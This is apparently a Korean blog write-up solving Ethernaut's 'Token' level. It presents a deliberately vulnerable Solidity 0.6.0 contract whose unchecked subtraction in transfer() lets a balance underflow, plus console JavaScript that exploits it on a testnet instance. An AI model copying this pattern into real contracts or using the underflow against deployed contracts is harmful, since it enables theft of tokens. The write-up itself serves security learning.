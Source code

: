 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 5) Token  
date: '2022-01-08 22:23:00'
author: 한성원
tags: ethernaut Token vulnerability
categories: 취약점분석
---
```



# 👋 1. Token
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- additional token 가져오기(해킹해서 가져오기)

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {
    
    // address와 balance의 mapping
    mapping(address => uint) balances;
    // 토큰의 총 공급량
    uint public totalSupply;

    // constructor: 총 공급량을 parameter로 한다.
    constructor(uint _initialSupply) public {
        // deployer의 balance를 총 공급량과 같게한다.
        // totalSupply를 patameter의 총 공급량과 같이한다.
        balances[msg.sender] = totalSupply = _initialSupply;
    }
    // Token을 transfer하는 function이다.
    function transfer(address _to, uint _value) public returns (bool) {
        // 만약 msg.sender의 (balance - 보내고싶은 토큰의 양)이 0과 같거나 커야한다. 
        require(balances[msg.sender] - _value >= 0);
        // msg.sender의 잔고에서 보낼 토큰의 양을 뺀다.
        balances[msg.sender] -= _value;
        // 수신자의 잔고에 받을 토큰의 양을 더한다. 
        balances[_to] += _value;
        return true;
    }
    // 하나의 address의 balance를 확인 할 수 있는 view function
    function balanceOf(address _owner) public view returns (uint balance) {
        // return balance of an address
        return balances[_owner];
    }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 Token은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제에서 우리는 기본적으로 주어진 20 토큰 이외에 추가적인 토큰을 얻으면 승리한다.

가장 먼저 우리는 코드에 허점을 찾아야 한다. 하지만 지금까지와 문제와 다르게 그러나있는 허점이 없다. ~~이제야 해킹같네ㅎㅋㅎㅋㅎㅋ~~

우선 내가 공부했던 취약점들을 생각해봤다. 그러던 중 token contract의 solidity compiler version은 0.6.0를 확인했다.

Overflow & Underflow는 꾸준히 이슈가 되다가 0.8.0 version에서부터 알아서 처리될 수 있도록 바뀌었다. Overflow & Underflow에 관해서는 __[이 글](https://holyhansss.github.io/vulnerability/over_under_flow/over_under_flow/)__ 에서 찾아볼수 있다.

우리는 이제 이 문제에서 underflow를 활용해 contract에 attack할 수 있다는 것을 알 수 있다.

__바로 Token.transfer()에 가지고 있는 token보다 큰 수를 보내면 나의 token balance가 underflow를 일으키며 상상할 수도 없는 큰 숫자의 token을 가질 수 있게 된다. 이제 코드를 보도록 하자!__

모든 코드는 console창에서 이루어진다. 
ctrl + shift + i를 눌러 console창을 활성화 시키자
```javascript
// 나의 balance를 확인한다: 20개의 Token을 가지고 있을 것이다.
await contract.balanceOf(player)

// contract의 transfer()를 call한다.
// 주소는 metamask를 통해 새로운 주소를 하나 만들었다.
// 내가 가진 토큰의 수 보다 큰 수의 토큰을 보낸다.
await contract.transfer("0x690A732BA98fcfe72bDedE2085816BCF6498058d", 21)

// 다시 나의 balance를 확인해보면 엄청 큰 수의 토큰을 얻을 것을 확인 할 수 있다.
await contract.balanceOf(player)
```

완료 후 ethernaut으로 돌아와 Submit instance를 누르고 조금 기다리면 block이 mine되고, 아래와 같이 뜨며 마무리된다.
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```
- - -
## 마무리
overflow와 underflow는 이미 공부했던 취약점이어서 쉽게 해결 할 수 있었다. 빠르게 6도 ㄱㄱ 해봅시다~~

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- overflow & underflow 취약점: https://holyhansss.github.io/vulnerability/over_under_flow/over_under_flow

```toc

```